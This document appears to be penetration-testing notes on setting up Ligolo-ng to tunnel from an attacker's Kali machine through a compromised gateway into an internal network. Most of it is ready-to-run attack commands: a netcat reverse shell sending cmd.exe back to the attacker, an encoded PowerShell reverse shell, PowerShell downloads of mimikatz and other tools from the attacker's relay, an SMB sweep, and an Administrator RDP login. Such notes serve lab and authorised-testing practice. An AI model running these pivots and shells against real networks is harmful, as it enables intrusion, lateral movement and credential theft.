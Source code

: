 # Ligolo-ng setup

Source: https://looptube.io/?videoId=DM1B8S80EvQ  

## Prerequisite

### Framework

| WAN | DMZ | Inside LAN |
|-----|-----|------------|
| Kali | Gateway | servers, workstations | 
| IpAttacker > | < eth0: IpDmzOut - eth1: IpDmzIn > | < IpInternalNetwork (DC, WS1, WS2) |

### Binary releases

Two downloads:
- an agent: on the gateway
- a proxy: on Kali

## Setup

### Config on Kali

```
sudo ip tuntap add user kaliuser mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

### Config on the gateway

```
cmd> agent.exe -connect $IpKali:$PortKali -ignore-cert
```

### Tunneling on Ligolo-ng

```
>> help
>> session
>>>> ifconfig
```

In a shell:
```
sudo ip route add $IpInternal/24 dev ligolo
ip route list # check
```

Back in Ligolo:
```
>>>> start
```

Check with NetExec:
```
NetExec smb $IpInternal/24
```

### Pivoting in Ligolo-ng

In Ligolo
```
>>>> listener_list
>>>> listener_add --addr 0.0.0.0:$Port1 --to 127.0.0.1:$Port2
>>>> listener_add --addr 0.0.0.0:$Port3 --to 127.0.0.1:$Port4
>>>> listener_list
```

On a WS or the DC:
```
PS> nc.exe $InternalGatewayIpOnEth1 $Port1 -e cmd.exe
PS> iwr -uri http://$InternalGatewayIpOnEth1:$Port3/somepentestingtool.exe -outfile tool.exe
```

Examples:
- `0.0.0.0:4446` -> `127.0.0.1:4446` then `powershell -e base64enc($InternalIpForAgent01 $4446)`
- `0.0.0.0:8081` -> `127.0.0.1:8081` then `iwr -uri http://$InternalIpForAgent01:8181/mimikatz.exe -outfile mimi.exe` (and `python3 -m http.server 8081` in `/var/www/html`)
- `0.0.0.0:3389` -> `$IpForTarget02:3389` then `xfreerdp /u:Administrator /p:adminpass /v:$ExternalIpForAgent01`

On Kali:
```
nc -lnpu $Port2
python3 -m http.server $Port4
```


